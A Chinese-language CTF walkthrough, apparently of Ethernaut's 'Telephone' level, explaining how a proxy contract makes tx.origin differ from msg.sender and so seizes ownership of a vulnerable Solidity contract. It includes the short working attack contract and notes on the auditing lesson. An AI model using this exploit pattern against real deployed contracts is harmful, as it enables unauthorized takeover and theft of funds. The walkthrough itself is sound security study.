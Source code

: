 # 04-Telephone

日期: 16/08/2024
漏洞小结: 钓鱼攻击
简单明了: 通过代理合约导致交易发起人与函数调用人不匹配
难易: 简单

# 问题描述

Claim ownership of the contract below to complete this level.

```jsx
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function changeOwner(address _owner) public {
        if (tx.origin != msg.sender) {
            owner = _owner;
        }
    }
}
```

# 攻击思路

非常简单明了，只要能够绕过if条件的限制，我们就可以自定义该合约的owner。

绕过限制的办法是实现`tx.origin != msg.sender`，那么要做到只需要用一个代理合约就行了。

这样整个交易的发起人其实是我的地址，但是调用这个函数的地址是攻击合约的地址

也就是说

- `tx.origin` = 我的地址
- `msg.sender` = 攻击合约的地址

这样只需要在调用的时候把需要变成owner地址放入函数变量即可。

# 攻击代码

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

contract AttackTelephone {
    address victim;

    constructor(address _victim){
        victim = _victim;
    }
    function Attack(address _newOwner) public {
        (bool success, ) = victim.call(abi.encodeWithSignature("changeOwner(address)", _newOwner));
        require(success,"Attack Failed!");
    }
}
```

- 上面使用call的语法不熟悉，**记一下**
- 其实`victim.call`就行，如果只是为了做题，不需要`success`，不过习惯还是好一些（费gas）

# 小白的思考

这道题目简单是因为之前在做Fallout的时候犯过错误，GPT帮我总结如下

### 回顾之前的情况

在那个 `Fal1out` 合约的挑战中，你的目标是通过调用 `Fal1out` 函数让自己成为合约的 `owner`。然而，当你用一个攻击合约来执行这一步时，结果发现 `owner` 变成了攻击合约的地址，而不是你自己的地址。这是因为 `msg.sender` 在这个上下文中是攻击合约的地址，而不是你自己。

### 详细分析

在你的攻击过程中：

1. 你通过攻击合约去调用目标合约的 `Fal1out` 函数。
2. 在目标合约中，`msg.sender` 是你的攻击合约的地址，而不是你的个人地址。
3. 如果目标合约的 `owner` 变量设置的是 `msg.sender`，那么 `owner` 就会变成攻击合约的地址。

### 类比 `tx.origin` 和 `msg.sender`

在这个场景下：

- `tx.origin` 始终是你个人的地址，因为你发起了整个交易。
- `msg.sender` 是你的攻击合约的地址，因为它是直接调用目标合约的实体。

虽然在 `Fal1out` 例子中并没有使用 `tx.origin`，但这个现象很好地展示了 `msg.sender` 和 `tx.origin` 之间的区别。`msg.sender` 是当前调用的直接来源，而 `tx.origin` 是整个调用链的起点。

### 解决方法

如果你想避免这个问题，可以直接从你的个人账户调用目标合约，而不是通过一个中间的攻击合约。这样 `msg.sender` 就会是你自己，从而正确地让你成为 `owner`。

### 总结

在审计过程中，理解 `msg.sender` 和 `tx.origin` 的区别非常重要，特别是在涉及身份验证和权限控制时，错误地使用这两个变量会引发漏洞。
